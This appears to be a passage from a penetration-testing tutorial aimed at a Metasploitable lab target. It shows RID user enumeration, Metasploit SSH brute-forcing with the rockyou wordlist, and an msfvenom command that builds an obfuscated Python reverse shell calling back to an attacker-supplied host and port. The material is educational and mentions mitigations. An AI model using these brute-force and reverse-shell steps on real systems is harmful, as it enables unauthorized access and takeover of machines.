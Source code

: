 {% hint style="info" %}
The script is basically enumerating through users' RIDs that uniquely identifies a user on a domain or system. The username is found because LSA function is exposed, which is used to convert RID to the username.
{% endhint %}

If you scroll down the list, you will find that the user “msfadmin” is the one that is not disabled! So we can use this information back in our `ssh_login` options!

We will also use the `rockyou.txt` password wordlist file that contains a lot of commonly used passwords. It comes with Kali at `/usr/share/wordlists`, you just have to extract it:

```
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

Once done, remove the USERPASS file and set USERNAME and PASS\_FILE.

```
unset USERPASS_FILE
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME msfadmin
```

![](<../.gitbook/assets/image (5) (1) (1) (1).png>)

Now the bruteforce attack only has to guess the password!

{% hint style="info" %}
Although we have technically improved the attack speed, we are still (at the end of the day) bruteforcing – which is practically impossible nowadays. Such attacks can be mitigated easily by limiting the number of attempts within a given period of time, as well as enforcing multi-factor authentications.
{% endhint %}

### 1.3.3. Reverse Shell

The Metasploit also comes with tools to create vulnerable executable scripts/files using `msfvenom` module. For our instance, we will create a reverse shell using python code:

```
msfvenom -p python/shell_reverse_tcp LHOST=[attacker IP address] LPORT=[attacker listening port]
```

![](<../.gitbook/assets/image (3) (1) (1).png>)

The payload created is a python executable code, which you can execute from your victim host. You will also notice that `msfvenom` applied code obfuscation techniques so that you cannot directly read the payload to understand exactly what this code is doing.
